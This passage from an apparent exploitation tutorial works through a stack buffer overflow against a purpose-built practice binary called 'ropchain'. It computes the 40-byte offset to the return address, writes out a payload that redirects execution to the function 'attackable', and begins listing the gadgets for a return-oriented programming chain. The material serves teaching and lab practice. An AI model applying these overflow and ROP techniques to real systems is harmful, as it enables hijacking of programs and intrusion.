 ```
```
So, here we can see a couple of things. Firstly, we put one register on the stack, and then we make room for the 32 bytes of name. (The ones that googled the stack layout will know, that on x86 architectures the stack grows downwards, hence we decrease `rsp`. The ones that didn't google now know too) Since the saved register is 8 bytes big and the return address is right before that, we need to first somehow fill 40 bytes and then we can write our new return address. Later we see, that a copy of the stack pointer (pointing to the first element of name) is passed to scanf. This means, we can actually really no kidding use this to perfom our attack. That's awesome, now where do we want to jump? We can use the command `objdump --disassemble ./ropchain` to show us the disassembly complete with addresses. There we can see, that the address of `greet` for example is `0x35dc0`, and for `attackable` it's `0x35ffc`. So with this knowledge we can craft an evil name of doom, that will convince our program, to for example jump right back into `greet`. This could look like this.
```
0x4141414141414141 fill name buffer, i chose the ascii value of 'A', but almost anything except for '\n' will do (because scanf would stop there)
0x4141414141414141 fill name buffer
0x4141414141414141 fill name buffer
0x4141414141414141 fill name buffer
0x4141414141414141 overwrite saved register, again, any value except '\n' will do
0x0000000000035ffc this is the spicy part. Here we write the address of attackable
```
So now we have our content, how do we get that to scanf? Remember, when I told you, that our program also contains a surprise tool, that we'll need later? Well, the future is now old man. If we copy the description of the stack into a file called "stack.txt" and call `./ropchain stack` a mysterious file "stack.bin" will appear. If one would inspect that new file with something like hexdump, one would see, that it contains the values specified in "stack.txt". In fact, the program will read the file "stack.txt" line by line, convert the number to hex (the "Ox" part is important, without it, it just won't work) and ignore everything after, so comments are easy peasy. Now we have a file "stack.bin" that we can pipe to `stdin` of `ropchain` and hence to `scanf` like so.
```sh
cat stack.bin | ./ropchain greet
```
Great. What's next?

### Building the ROP chain
Now, that we are in attackable, we need to identify our gadgets and provide the addresses to jump between them and the values we want to put in the registers. Here is the code of attackable, I marked the gadgets I want to use.
```
attackable:
    pop rcx
    xor rcx, rcx
    jmp rcx
    ret
    pop rdx                 // pop into rdx, but clobber rax
    pop rax                 //
    jmp rax                 //
    xor rcx, rcx
    mov rbx, rcx
    call syscall_equivalent // the syscall
    ret
    pop rax                 // pop into rax
    ret                     //
    pop rcx
    xor rcx, rcx
    ret
    mov rcx, rdx            // copy rdx into rcx
    ret                     //
    mov ebx, 0x1
    ret
    pop rbx                 // pop into rbx, but clobber rax
    xor rax, rbx            //
    ret
```